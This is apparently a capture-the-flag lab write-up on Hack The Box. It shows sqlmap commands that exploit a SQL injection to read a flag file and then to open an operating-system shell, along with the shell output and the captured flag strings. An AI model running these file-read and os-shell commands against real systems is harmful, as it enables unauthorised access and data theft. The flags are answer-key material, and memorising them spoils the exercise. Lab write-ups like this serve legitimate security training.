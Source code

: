 ![](Pasted image 20250204180202.png)

We can use this:

```
python3 sqlmap.py -r os.txt --file-read "/var/www/html/flag.txt" --batch --threads 10
```

We get the following:

```
HTB{5up3r_u53r5_4r3_p0w3rful!}
```

## Second
---

We can use this command in order to get a shell:

```
python3 sqlmap.py -r os.txt --os-shell --threads 10 --batch
```

We can see our shell:

![](Pasted image 20250204180603.png)

If we do `ls /`, we can see the following:

```
os-shell> ls /
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output:
---
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
---
```

We can simply read our flag by doing `cat /flag.txt`

```
os-shell> cat /flag.txt
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'HTB{n3v3r_run_db_45_db4}'
```

Flag is `HTB{n3v3r_run_db_45_db4}`

